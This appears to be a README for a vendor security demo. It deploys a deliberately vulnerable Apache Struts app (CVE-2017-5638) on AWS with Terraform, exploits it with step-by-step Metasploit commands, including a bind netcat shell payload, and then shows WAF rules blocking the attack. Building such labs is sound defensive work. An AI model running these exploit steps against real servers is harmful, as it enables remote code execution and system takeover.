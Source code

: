 ## Overview
This demo is created to exploit apache struts with CVE-2017-5638. It will deploy vulnerable struts version with sample demo application on AWS.
Demo is created for 3 AWS regions (Ohio, Oregon, Ireland) with default Ohio region setup. AMI images used in Demo is available in these 3 regions as public AMIs.
In order to setup the environment few hardcoded modifications need to be done on terraform code.

 
## Pre-requisites:
- AWS IAM account with administrator access
- Terraform need to be deployed on user's system with basic configuration
- Metasploit with latest msfupdate in attacker machine.
- if you are setting uo victim outside AWS then you can use following blog post for victim setup.
  http://blog.ud64.com/2017/09/apache-struts-with-cve-2017-5638-set-up.html

NOTE: if in case tomcat service is not started. you can login to EC2 instance and start the same using "#sudo $CATALINA_HOME/bin/startup.sh"

## Hardcoded modifications
- user_data.sh is a bootstrap script which can be modify to add Trend Micro DS agent configuration  
- EC2 Keys are stored in /Scripts directory. you can use the .pem or .ppk to login to EC2 instance over the internet.

## Generic steps for victim setup:
### 1
Deploy terraform template on AWS using terraform plan and terraform apply.
  terraform init
  terraform apply

### 2
Victim domain name will be available in terraform apply output. we have to use the same during our attack 
We have configured proxy with ELB to convert port 8080 to 80.  

### 3
Application URL is configured as struts2_2.3.15.1-showcase/showcase.action

### 4
We can use generic payload for the demo.

set PAYLOAD cmd/unix/generic
set CMD "touch /tmp/hackedsystemexec64"
set PAYLOAD cmd/unix/bind_netcat


### Exploit demo execution steps:
####Step 1:Open metasploit in attacker system 

####step 2: search for the CVE-2017-5638
msf>search CVE-2017-5638

####step 3: use the exploit
msf> use exploit/multi/http/struts2_content_type_ognl

####step 4: configure the application paramenter in exploit options
msf exploit> show options
msf exploit> set RHOST <Domain name of cloudfront> 
msf exploit> set RPORT 80
msf exploit> set TARGETURI struts2_2.3.15.1-showcase/showcase.action
msf exploit> show options


####step 5: configure payload
msf exploit> set PAYLOAD cmd/unix/generic
msf exploit> show payload
msf exploit> set CMD "touch /tmp/hackedsystemexec64"
msf exploit> exploit

Also taking over the system can be possible
msf exploit> set PAYLOAD cmd/unix/bind_netcat
msf exploit> exploit

cmd> id
cmd> whoami


####step 6: SSH to public ip of victim server and show the affected file



Complete!!!.. now show the protection with Deep security and/or Trend Micro managed WAF rules. 

---------------------------Protection with Trendmicro managed WAF rules or with DS---------

NOW, Login to AWS WAF portal and click on Web ACLs 
-> select Trendmicro-Managed-Rule-ACL
-> select rules tab in right side
-> edit ACL and select Trendmicro managed WAF rule (Apache and Ngnix)
-> now run the exploit again. it should fail
